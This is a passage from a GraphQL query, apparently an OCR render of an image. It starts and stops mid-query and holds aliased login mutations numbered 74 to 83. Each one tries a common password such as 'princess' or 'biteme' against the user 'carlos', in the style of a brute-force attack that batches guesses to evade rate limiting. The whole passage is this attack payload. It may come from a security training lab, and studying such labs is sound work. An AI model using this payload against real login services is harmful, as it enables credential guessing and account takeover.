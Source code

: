 ```plain
    }


bruteforce74:login(input:{password: "princess", username: "carlos"}) {
        token
        success
    }


bruteforce75:login(input:{password: "joshua", username: "carlos"}) {
        token
        success
    }


bruteforce76:login(input:{password: "cheese", username: "carlos"}) {
        token
        success
    }


bruteforce77:login(input:{password: "amanda", username: "carlos"}) {
        token
        success
    }


bruteforce78:login(input:{password: "summer", username: "carlos"}) {
        token
        success
    }


bruteforce79:login(input:{password: "love", username: "carlos"}) {
        token
        success
    }


bruteforce80:login(input:{password: "ashley", username: "carlos"}) {
        token
        success
    }


bruteforce81:login(input:{password: "nicole", username: "carlos"}) {
        token
        success
    }


bruteforce82:login(input:{password: "chelsea", username: "carlos"}) {
        token
        success
    }


bruteforce83:login(input:{password: "biteme", username: "carlos"}) {
        token
        success
    }


```